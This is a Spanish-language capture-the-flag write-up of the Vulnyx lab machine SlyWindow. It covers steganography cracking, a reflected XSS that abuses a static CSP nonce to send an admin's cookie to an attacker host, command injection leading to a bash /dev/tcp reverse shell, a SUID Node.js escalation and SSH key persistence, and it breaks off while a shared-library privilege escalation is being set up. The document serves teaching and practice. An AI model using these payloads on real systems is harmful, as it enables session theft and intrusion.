






Análisis detallado y paso a paso de la máquina SlyWindow (Vulnyx), cubriendo técnicas de esteganografía, explotación de vulnerabilidades XSS, ataque TOCTOU, escalada de privilegios y manipulación de librerías en sistemas Linux.

## Tabla de contenido

## Enumeración

### Escaneo de puertos

Iniciamos la fase de enumeración realizando un escaneo de puertos sobre la máquina objetivo, cuya dirección IP es `10.0.2.11`.

```bash
nmap -p- -sCV -Pn -vvv -n 10.0.2.11 -oN nmap.txt
```

```text
# Nmap 7.94SVN scan initiated Thu Jul 31 21:35:50 2025 as: /usr/lib/nmap/nmap --privileged -p- -sCV -Pn -vvv -n -oN nmap.txt 10.0.2.11
Nmap scan report for 10.0.2.11
Host is up, received arp-response (0.000088s latency).
Scanned at 2025-07-31 21:35:50 CEST for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:d8:65:cf:d9:7f:21:e9:1b:1e:52:01:a2:79:e7:0e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFM0sytCCMmCQLsUyKqYcm+b/oeUR3op1iNVSBNyz/Wc6mHbe4324fkSNLZlfKj/4cNzsGxqGK+zbKbJ3uMCrl8=
|   256 56:08:db:eb:9c:89:3b:d0:d4:12:9e:de:9c:dc:6a:0f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMQq+hYRvRC1ebeu4dAMDEb+fuuv8VPi/HjBxRKIC8jh
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:5A:9C:A4 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 31 21:35:58 2025 -- 1 IP address (1 host up) scanned in 7.80 seconds
```

Se identifican los puertos 22 (SSH) y 80 (HTTP) abiertos. A continuación, se emplea la herramienta whatweb para profundizar en la información del servicio web expuesto.

### Web

```bash
whatweb -v 10.0.2.11
```

```text
WhatWeb report for http://10.0.2.11
Status    : 200 OK
Title     : <None>
IP        : 10.0.2.11
Country   : RESERVED, ZZ

Summary   : Apache[2.4.62], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)]

Detected Plugins:
[ Apache ]
	The Apache HTTP Server Project is an effort to develop and 
	maintain an open-source HTTP server for modern operating 
	systems including UNIX and Windows NT. The goal of this 
	project is to provide a secure, efficient and extensible 
	server that provides HTTP services in sync with the current 
	HTTP standards. 

	Version      : 2.4.62 (from HTTP Server Header)
	Google Dorks: (3)
	Website     : http://httpd.apache.org/

[ HTTPServer ]
	HTTP server header string. This plugin also attempts to 
	identify the operating system from the server header. 

	OS           : Debian Linux
	String       : Apache/2.4.62 (Debian) (from server string)

HTTP Headers:
	HTTP/1.1 200 OK
	Date: Thu, 31 Jul 2025 19:43:38 GMT
	Server: Apache/2.4.62 (Debian)
	Last-Modified: Wed, 30 Jul 2025 17:13:37 GMT
	ETag: "1bb-63b28a5397240-gzip"
	Accept-Ranges: bytes
	Vary: Accept-Encoding
	Content-Encoding: gzip
	Content-Length: 301
	Connection: close
	Content-Type: text/html
```

Al acceder al sitio web, observamos que la imagen principal no se muestra correctamente. Sin embargo, al revisar el código fuente, identificamos que la etiqueta `<base>` está configurada con el dominio `www.slywindow.nyx`.

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <base href="http://www.slywindow.nyx/" />
    <title></title>
  </head>
  <body></body>
</html>
```

Agregamos los dominios `www.slywindow.nyx` y `slywindow.nyx` al archivo `/etc/hosts` para resolver correctamente las peticiones HTTP durante la fase de enumeración.

```bash
# /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
10.0.2.11       slywindow.nyx www.slywindow.nyx
```

Accedemos nuevamente al sitio web utilizando el dominio configurado, donde se muestra una imagen de un conejo empleando un gato hidráulico para ampliar una ventana.


### Enumeración de subdominios

Empleamos `gobuster` en modo vhost para identificar posibles subdominios configurados como virtualhosts adicionales en el servidor.

```bash
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u slywindow.nyx -t 30 --append-domain
```

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://slywindow.nyx
[+] Method:          GET
[+] Threads:         30
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: api.slywindow.nyx Status: 403 [Size: 282]
Progress: 114442 / 114443 (100.00%)
===============================================================
Finished
===============================================================
```

Identificamos el subdominio `api.slywindow.nyx`, por lo que procedemos a incorporarlo al archivo `/etc/hosts` para asegurar su correcta resolución durante las pruebas.

```bash
# /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
10.0.2.11       slywindow.nyx www.slywindow.nyx api.slywindow.nyx
```

Al acceder a la URL `http://api.slywindow.nyx`, el servidor responde con un código `403 Forbidden`, lo que indica que el acceso está restringido.

### Fuzzing de archivos y endpoints

Realizamos un fuzzing en ambos dominios utilizando `gobuster` para identificar endpoints o archivos accesibles.

En el dominio `www.slywindow.nyx` descubrimos los recursos `/admin.php` y `/index.html`.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://www.slywindow.nyx -x html,php --exclude-length 282
```

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://www.slywindow.nyx
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          282
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 443]
/admin.php            (Status: 200) [Size: 4652]
Progress: 661677 / 661680 (100.00%)
===============================================================
Finished
===============================================================
```

En el dominio `api.slywindow.nyx` identificamos el endpoint `/api.php`.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://api.slywindow.nyx -x html,php --exclude-length 282
```

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api.slywindow.nyx
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          282
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/api.php              (Status: 405) [Size: 58]
Progress: 661677 / 661680 (100.00%)
===============================================================
Finished
===============================================================
```

## Intrusión

### Esteganografía

Descargamos la imagen del conejo desde el dominio y la analizamos con steghide para verificar si contiene información oculta.

```bash
wget http://www.slywindow.nyx/small-window.jpg && steghide info small-window.jpg
```

```text
"small-window.jpg":
  formato: jpeg
  capacidad: 21,0 KB
¿Intenta informarse sobre los datos adjuntos? (s/n) s
Anotar salvoconducto:
steghide: ¡no pude extraer ningún dato con ese salvoconducto!
```

Mediante `steghide` confirmamos que la imagen contiene 21,0 KB de datos ocultos, pero requiere una passphrase para extraerlos. Para obtenerla, empleamos `stegseek` junto con el diccionario `rockyou.txt`.

```bash
stegseek ./small-window.jpg /usr/share/wordlists/rockyou.txt
```

En cuestión de segundos, logramos obtener la passphrase y procedemos a extraer el archivo oculto utilizando dicha clave.

```text
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "april"
[i] Original filename: "api-key.txt".
[i] Extracting to "small-window.jpg.out".
```

El archivo extraído contiene una API-KEY, la cual probablemente será necesaria para interactuar con el subdominio `api.slywindow.nyx`.

```bash
$ cat small-window.jpg.out
API_KEY=d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79
```

### XSS en www.slywindow.nyx/admin.php

Mediante fuzzing identificamos la existencia de la página `admin.php`, la cual presenta un formulario de validación de acceso.



En este formulario, detectamos una vulnerabilidad de tipo XSS reflejado en el parámetro `error`, el cual es utilizado para mostrar mensajes cuando la validación falla.

```
http://www.slywindow.nyx/admin.php?error=%3Ch1%3EXSS%3C/h1%3E
```

Sin embargo, la ejecución de código JavaScript está restringida por la política de Content Security Policy (CSP) configurada en las cabeceras, lo que limita la explotación directa del XSS.

Procedemos a recopilar información adicional sobre la página del formulario para identificar posibles vectores de ataque alternativos.

```bash
whatweb http://www.slywindow.nyx/admin.php -v
```

```text
WhatWeb report for http://www.slywindow.nyx/admin.php
Status    : 200 OK
Title     : Admin Panel - Login
IP        : 10.0.2.11
Country   : RESERVED, ZZ

Summary   : Apache[2.4.62], Cookies[PHPSESSID], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], PasswordField[password], UncommonHeaders[content-security-policy,x-content-type-options,referrer-policy], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and
        maintain an open-source HTTP server for modern operating
        systems including UNIX and Windows NT. The goal of this
        project is to provide a secure, efficient and extensible
        server that provides HTTP services in sync with the current
        HTTP standards.

        Version      : 2.4.62 (from HTTP Server Header)
        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ Cookies ]
        Display the names of cookies in the HTTP headers. The
        values are not returned to save on space.

        String       : PHPSESSID

[ HTML5 ]
        HTML version 5, detected by the doctype declaration


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to
        identify the operating system from the server header.

        OS           : Debian Linux
        String       : Apache/2.4.62 (Debian) (from server string)

[ PasswordField ]
        find password fields

        String       : password (from field name)

[ UncommonHeaders ]
        Uncommon HTTP server headers. The blacklist includes all
        the standard headers and many non standard but common ones.
        Interesting but fairly common headers should have their own
        plugins, eg. x-powered-by, server and x-aspnet-version.
        Info about headers can be found at www.http-stats.com

        String       : content-security-policy,x-content-type-options,referrer-policy (from headers)

[ X-Frame-Options ]
        This plugin retrieves the X-Frame-Options value from the
        HTTP header. - More Info:
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : SAMEORIGIN

[ X-XSS-Protection ]
        This plugin retrieves the X-XSS-Protection value from the
        HTTP header. - More Info:
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : 1; mode=block

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Thu, 31 Jul 2025 22:31:12 GMT
        Server: Apache/2.4.62 (Debian)
        Set-Cookie: PHPSESSID=1df40qrfntea7bunpmvcgi5caq; path=/
        Expires: Thu, 19 Nov 1981 08:52:00 GMT
        Cache-Control: no-store, no-cache, must-revalidate
        Pragma: no-cache
        Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'; style-src 'self' 'nonce-rOdPWdv1rvK5Wx8Y8ls/BA=='
        X-Frame-Options: SAMEORIGIN
        X-Content-Type-Options: nosniff
        Referrer-Policy: no-referrer
        X-XSS-Protection: 1; mode=block
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 1206
        Connection: close
        Content-Type: text/html; charset=UTF-8
```

Se pueden identificar varios aspectos relevantes: las cabeceras CSP están configuradas con una política bastante restrictiva.

```bash
        Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'; style-src 'self' 'nonce-rOdPWdv1rvK5Wx8Y8ls/BA=='
        X-Frame-Options: SAMEORIGIN
        X-Content-Type-Options: nosniff
        Referrer-Policy: no-referrer
        X-XSS-Protection: 1; mode=block
```

Además, se puede observar que la cookie no cuenta con la bandera `HttpOnly`, lo que permite su acceso desde el lado del cliente y representa un riesgo adicional en caso de vulnerabilidades XSS.

Si analizamos detenidamente las cabeceras CSP, podemos ver que se generan dos valores `nonce` ([The CSP nonce Guide](https://content-security-policy.com/nonce/)), pero uno de ellos permanece constante en cada petición, lo que indica que no se está generando de forma segura.

Al ejecutar el siguiente comando varias veces, se puede comprobar que el primer `nonce` de las cabeceras CSP se repite en todas las respuestas.

```bash
curl -I http://www.slywindow.nyx/admin.php
```

```
HTTP/1.1 200 OK
Date: Thu, 31 Jul 2025 22:42:53 GMT
Server: Apache/2.4.62 (Debian)
Set-Cookie: PHPSESSID=eab296le2dua5f7la9f6lcp3ti; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'; style-src 'self' 'nonce-9trfCIHuZET9ZSwbFDTXmw=='
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer
X-XSS-Protection: 1; mode=block
Content-Type: text/html; charset=UTF-8
```

En el resultado de la petición anterior, observamos que el nonce `'nonce-aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx'` aparece en las cabeceras CSP. Si inspeccionamos el código fuente de la página `admin.php`, notamos que este primer nonce no se utiliza en ninguna etiqueta `<script>`, mientras que el segundo nonce sí se emplea en la etiqueta `<style>`.


Esta mala implementación permite explotar la política CSP para ejecutar JavaScript arbitrario mediante un ataque XSS.

```text
http://www.slywindow.nyx/admin.php?error=<script nonce="aW1wcm92YWJsZS1ub25jZS0yMDI1LTA3LTMx">alert(1)</script>
```

Esto será relevante en fases posteriores.

### Análisis de la API en api.slywindow.nyx/api.php

Al intentar acceder directamente al endpoint de la API mediante una petición GET, el servidor responde indicando que se debe utilizar el método POST.

```bash
curl http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

Si realizamos la petición utilizando el método POST, el servidor responde indicando que es necesario proporcionar una API KEY.

```bash
curl -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```


Procedemos a utilizar la API cuya clave descubrimos previamente oculta en la imagen del conejo.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

El servidor responde indicando que requiere un objeto JSON, por lo que procedemos a enviárselo:

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```


El servidor ahora solicita explícitamente los campos `message` y `url` en el cuerpo de la petición, por lo que procedemos a incluirlos en la solicitud.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://www.google.com"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

El mensaje de respuesta resulta especialmente relevante en este punto:



Lo más relevante del mensaje es que indica que el administrador visitará de forma inmediata la URL proporcionada.

### Exfiltración de cookies del administrador

Para verificar que el administrador realmente visita las URLs proporcionadas a través de la API, configuramos un listener con netcat en nuestra máquina atacante.

```bash
nc -lvp 80
```

y enviamos una solicitud a la API incluyendo una URL que apunte a la IP de nuestra máquina atacante (en este caso, 10.0.2.7) desde otro terminal para comprobar si el administrador accede a ella.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://10.0.2.7"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

Tras aproximadamente 30 segundos, recibimos una solicitud entrante en nuestro listener de netcat, confirmando que el administrador ha accedido a la URL proporcionada.


Se confirma que el administrador visita las URLs enviadas a través de la API, aunque únicamente lo hace una vez. Sabiendo que existe una vulnerabilidad de XSS en `http://www.slywindow.nyx/admin.php?message=`, y aprovechando un `nonce` inseguro en las cabeceras CSP, podemos enviar un enlace malicioso al administrador con el objetivo de robar su cookie.

En primer lugar, es necesario obtener nuevamente el valor actual del `nonce` inseguro de las cabeceras, ya que este podría haber cambiado desde la última vez que lo capturamos.

A continuación, creamos un archivo `index.html` en nuestra máquina atacante que redirige a Google, simulando una acción legítima.

```bash
echo '<script>location.href="https://www.google.com";</script>' > index.html
```

A continuación, levantamos un servidor web con Python en la misma carpeta donde se encuentra el archivo `index.html` que redirige a google.com, con el objetivo de camuflar la exfiltración de cookies.

```bash
python3 -m http.server 80
```

Antes de atacar al administrador, probamos la exfiltración de cookies en nuestra propia sesión. Para ello, generamos el script malicioso y lo codificamos en URL dentro del parámetro `?error=`.

```javascript
<script nonce="aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx">location.href='//10.0.2.7/?'+encodeURIComponent(document.cookie)</script>
```

Accedemos a la siguiente URL desde nuestro navegador; aunque visualmente se redirige a Google, nuestro servidor web logra capturar la cookie de nuestra propia sesión, validando así la exfiltración.

```text
http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E
```


Con el enlace malicioso listo, procedemos a utilizar la API para enviar la URL al administrador y así intentar exfiltrar su cookie de la página `http://www.slywindow.nyx/admin.php`.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

En menos de 30 segundos, nuestro servidor recibe la cookie de sesión del administrador, confirmando la exfiltración exitosa.



Accedemos a la URL `http://www.slywindow.nyx/admin.php`, sustituimos la cookie de sesión en el navegador por la del administrador previamente exfiltrada y recargamos la página. De este modo, obtenemos acceso al `Administration Panel`.


### Ejecución remota

Desde el panel de administración es posible ejecutar diversos comandos predefinidos a través de un menú desplegable, lo que nos permite recopilar información relevante del servidor. Analizando el tráfico con Burp Suite, identificamos la petición generada al utilizar la funcionalidad `Find Files`. Aprovechando esta funcionalidad, logramos obtener ejecución remota de comandos (RCE) al inyectar una carga maliciosa en el parámetro `search_location`.



En la máquina atacante, abrimos un listener con netcat en el puerto 447 a la espera de la conexión inversa.

```bash
nc -lvnp 447
```

Generamos una reverse shell con la IP de nuestra máquina atacante, la codificamos en URL y la inyectamos en el parámetro `search_location`, utilizando la sintaxis adecuada para lograr la ejecución remota de comandos.

```bash
bash -c 'bash -i >& /dev/tcp/10.0.2.7/447 0>&1'
```

Obtenemos acceso a una shell interactiva en el servidor objetivo.



## Movimiento lateral al usuario tocu

Estabilizamos la shell para facilitar su uso y enumeramos los usuarios presentes en el sistema, identificando a `tocu` y `root`.

```bash
www-data@slywindow:/var/www/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
tocu:x:1000:1000:tocu,,,:/home/tocu:/bin/bash
```

Enumeramos los archivos con el bit SUID habilitado para identificar posibles vectores de escalada de privilegios.

```bash
find / -perm -4000 2> /dev/null
```

```bash
www-data@slywindow:/dev/shm$ find / -perm -4000 2> /dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/opt/backup/backup_utility
/opt/loginandvisit/tocunode
```

Identificamos dos binarios potencialmente interesantes. Analizamos ambos para determinar su funcionalidad: no disponemos de permisos de ejecución sobre `/opt/backup/backup_utility`, pero sí podemos ejecutar `/opt/loginandvisit/tocunode`.

```bash
www-data@slywindow:/dev/shm$ ls -lh /opt/loginandvisit/tocunode
-rwsr-sr-x 1 tocu tocu 116M Jul 30 20:44 /opt/loginandvisit/tocunode
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode  
Welcome to Node.js v22.17.1.
Type ".help" for more information.
> 
(To exit, press Ctrl+C again or Ctrl+D or type .exit)
> 
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode --version
v22.17.1
```

Se trata de una copia de Node.js propiedad del usuario `tocu` con el bit SUID habilitado. Consultando GTFOBins, identificamos una técnica para aprovechar este binario y escalar privilegios, obteniendo acceso como el usuario `tocu`.

```bash
/opt/loginandvisit/tocunode -e 'require("child_process").spawn("/bin/bash", ["-p"], {stdio: [0, 1, 2]})'
```

Tras explotar el binario SUID de Node.js, conseguimos una shell como el usuario `tocu`, lo que nos permite acceder y leer la flag ubicada en `user.txt`.



Generamos una clave pública SSH (`~/.ssh/id_ed25519.pub` si no existe) y la añadimos al archivo `authorized_keys` del usuario `tocu` para obtener acceso interactivo y persistente mediante shell con sus privilegios.

```bash
mkdir /home/tocu/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC69nOYDcXfzkVCiMn7FaJW2O3fnFKvMzClvoa/CxOr3 kali@kali' > /home/tocu/.ssh/authorized_keys
```

y accedemos por SSH sin necesidad de contraseña, asegurando así el acceso persistente al sistema.

```bash
ssh tocu@slywindow.nyx
```


## Escalada de privilegios de tocu a root

El usuario `tocu` pertenece al grupo `backupgrp`. Al listar los archivos asociados a este grupo, identificamos el binario `/opt/backup/backup_utility`, el cual previamente no podíamos ejecutar, pero ahora sí gracias a los nuevos privilegios. Este binario posee el bit SUID, permitiendo su ejecución con privilegios de root.

En el mismo directorio se encuentra la librería `backup_plugin.so`, sobre la cual tenemos permisos de escritura, lo que abre la posibilidad de manipular su comportamiento durante la ejecución del binario SUID.

```bash
tocu@slywindow:~$ ls -la  /opt/backup/
total 44
drwxrwxrwx 2 root root       4096 Jul 30 20:36 .
drwxr-xr-x 4 root root       4096 Jul 30 14:57 ..
-rw-r--r-- 1 root root      16216 Jul 12 04:19 backup_plugin.so
-rwsr-x--- 1 root backupgrp 17520 Jul 12 04:19 backup_utility
```

Si ejecutamos el binario desde un directorio distinto a `/opt/backup/`, este falla al no localizar la librería necesaria para su funcionamiento.

```bash
tocu@slywindow:~$ /opt/backup/backup_utility
=== Advanced Backup Utility v2.1 (Secure Version) ===
Source: /var/www/html
Destination: /backups

Initializing backup system...
Performing security checks...
Verifying backup plugin integrity...
Error opening file: No such file or directory
Aborting backup due to plugin verification failure.
```

No obstante, al ejecutarlo desde el directorio `/opt/backup/`, el binario localiza correctamente la librería y se ejecuta mostrando la salida esperada.

```bash
tocu@slywindow:~$ cd /opt/backup
tocu@slywindow:/opt/backup$ ./backup_utility 
=== Advanced Backup Utility v2.1 (Secure Version) ===
Source: /var/www/html
Destination: /backups

Initializing backup system...
Performing security checks...
Verifying backup plugin integrity...
Plugin hash: 8b3ce16b337842c8a12f48155ec827ec
Plugin verification successful.

Preparing backup environment...
Source directory found: /var/www/html
Scanning source directory contents...
Found file: small-window.jpg
Found file: index.html
Found file: admin.php
Total files to backup: 3

Finalizing backup preparation...
Ready to start backup process...

